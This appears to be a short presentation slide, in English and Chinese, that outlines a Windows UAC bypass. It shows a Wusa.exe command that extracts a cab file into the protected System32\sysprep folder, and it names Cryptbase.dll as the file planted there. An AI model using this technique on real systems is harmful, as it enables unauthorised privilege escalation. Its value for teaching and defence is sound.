

# Wusa.exe Bypass UAC
Exploit：extract命令任意目录文件写

Wusa.exe exploit.cab /extract:c:\windows\system32\sysprep

Cryptbase.dll
System32\sysprep
Wusa.exe
extract
save